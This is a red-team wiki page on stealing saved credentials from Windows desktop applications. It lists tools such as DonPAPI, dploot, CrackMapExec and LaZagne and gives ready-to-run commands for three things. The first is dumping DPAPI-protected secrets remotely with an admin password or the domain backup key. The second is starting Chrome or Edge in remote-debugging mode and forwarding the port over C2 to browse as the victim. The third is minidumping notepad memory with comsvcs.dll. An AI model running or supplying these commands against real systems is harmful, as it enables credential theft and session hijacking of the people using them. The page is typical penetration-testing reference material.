 ```yaml
---
title: Application Credential Access
---
```


The following tools can be used to [[notes/mitre-attack/credential-access|access credentials]] from various [[notes/windows/index]] desktop applications.
Many of them are protected by [[notes/windows/dpapi-dump|DPAPI]].

Tool | Language | Access | Supported Applications
-----|----------|--------|-----------------------
[[notes/tools/donpapi]] | Python | Remote | Credential Manager, Vault, Certificates, Internet Explorer, Chrome, Edge, Firefox, WiFi, VNC, mRemoteNG
[[notes/tools/dploot]] | Python | Remote | Credential Manager, Vault, Certificates, Remote Desktop Connection Manager, Chrome, Edge, Firefox, WiFi
[[notes/tools/crackmapexec]] | Python | Remote | Uses dploot
[[notes/tools/lazagne]] | Python | Local | Chrome, Edge, Firefox, Outlook, Thunderbird, FileZilla, KeePass, WinSCP and many more
[SharpChromium](https://github.com/djhohnstein/SharpChromium) | C# | Local | Chome, Edge
[ThunderFox](https://github.com/V1V1/SharpScribbles/) | C# | Local | Firefox, Thunderbird
[offline_address_book_extractor.py](https://github.com/api0cradle/RedTeamScripts/blob/main/offline_address_book_extractor.py) | Pyhton | Offline | Outlook address book parser
[OutlookSpy](https://github.com/acole76/OutlookSpy) | C# | Local | Outlook
[SessionGopher](https://github.com/Arvanaghi/SessionGopher) | PowerShell | Local | WinSCP, PuTTY, FileZilla, RDP
[strings2](https://github.com/glmcdona/strings2) + [ProcessStringExtractor](https://gist.github.com/LuemmelSec/3f2c4b7642dc7b2ae63601ed02ec3db5) | C + PowerShell | Local | generic, find patterns in process memory
[PMP-Decrypter](https://github.com/LuemmelSec/PMP-Decrypter) | C# | Local | Patch My PC
[dumpscan](https://github.com/daddycocoaman/dumpscan) | Python | Remote | Find certificates in Minidumps

Dump DPAPI-protected secrets remotely and decrypt them with the domain backup key, the users password or NT hash.

=== "[[notes/tools/donpapi]]"
    Worked, but crashed in the end.

    ~~~ bash
    donpapi -o ./ws01/dpapi -pvk ./corp.pvk -local_auth administrator:'passw0rd'@ws01.corp.local
    donpapi -o ./ws01/dpapi -credz ./passwords.txt -local_auth administrator:'passw0rd'@ws01.corp.local
    donpapi -o ./ws01/dpapi -credz ./nthashse.txt -local_auth administrator:'passw0rd'@ws01.corp.local
    ~~~

=== "[[notes/tools/dploot]]"
    Failed during testing.

    ~~~ bash
    dploot triage -dump-all -export-triage ./ws01/dpapi -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -pvk ./corp.pvk -u administrator -p 'passw0rd' ws01.corp.local
    dploot triage -dump-all -export-triage ./ws01/dpapi -passwords ./passwords.txt -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -passwords ./passwords.txt -u administrator -p 'passw0rd' ws01.corp.local
    dploot triage -dump-all -export-triage ./ws01/dpapi -nthashes ./nthashes.txt -u administrator -p 'passw0rd' ws01.corp.local && dploot machinetriage -dump-all -export-triage ./ws01/dpapi -nthashes ./nthashes.txt -u administrator -p 'passw0rd' ws01.corp.local
    ~~~

=== "[[notes/tools/crackmapexec]]"
    As unprivileged user dump your own secrets, as local admin dump secrets from every user whose password is stored in CMEDB or as domain admin utilizing the domain backup keys.
    Uses [[notes/tools/dploot]] under the hood ([source](https://twitter.com/mpgn_x64/status/1627638010203316227)).

    ~~~ bash
    crackmapexec smb ws01.corp.local --local-auth -u administrator -p passw0rd --dpapi passwords && crackmapexec smb ws01.corp.local --local-auth -u administrator -p passw0rd --dpapi cookies
    ~~~

Untested tools:

- [hekatomb](https://github.com/processus-thief/hekatomb), dumps domain backup keys, downloads credential files from all domain computers, decrypts the files

References:

- [Extracting Encrypted Credentials from Common Tools](http://web.archive.org/web/20230816141251/https://scribe.rip/@xm-cyber/extracting-encrypted-credentials-from-common-tools-ceb83e7304ce), WinSCP, RoboMongo, MobaXterm
- [Analyzing LastPass, part 1](http://web.archive.org/web/20221012111523/https://www.mdsec.co.uk/2022/10/analysing-lastpass-part-1/)
- [Relaying YubiKeys](http://web.archive.org/web/20220919230832/https://cube0x0.github.io/Relaying-YubiKeys/)

## Chrome Remote Debugging

Start Chrome in headless and remote debugging mode.

~~~ bat
"C:\Program Files (x86)\Google\Chrome\Application\chrome.exe" --remote-debugging-port=9222 --remote-debugging-address=127.0.0.1 --user-data-dir=%TEMP%\headless.profile --ignore-certificate-errors about:blank --headless
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --remote-debugging-port=9222 --remote-debugging-address=127.0.0.1 --user-data-dir=%TEMP%\headless.profile --ignore-certificate-errors about:blank --headless
~~~

Reverse forward the debug port over your C2.

Open Chrome on your machine and go to `chrome://inspect`.
Now you can browse the web in the name of your victim.

Untested tools:

- [WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut), dumps cookies from debug port of Chromium-based browsers

References:

- [Debugging Cookie Dumping Failures with Chromiums Remote Debugger](http://web.archive.org/web/20230721071951/https://scribe.rip/@slyd0g/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
- [twitter.com/an0n_r0/status/1670007830072500225](https://twitter.com/an0n_r0/status/1670007830072500225)
- [Headless Remote Chrome Debugging](https://gist.github.com/NotMedic/b1ab7809eea94cc05513905b26964663)
- [Stalking inside of your Chromium Browser](https://web.archive.org/web/20221202231214/https://scribe.rip/@specterops/stalking-inside-of-your-chromium-browser-757848b67949)

# Unsaved Notepad

Dump the content of an open `notepad.exe` window that is not written to a file ([source](https://twitter.com/NinjaParanoid/status/1695682038593110193)):

~~~ bat
rundll32.exe comsvcs.dll MiniDump %PID% .\notepad.log full
strings.exe --encoding=l .\notepad.log
~~~

# Notepad++ Backups

Inspect files in `%USERPROFILE%\AppData\Roaming\Notepad++\backup`.
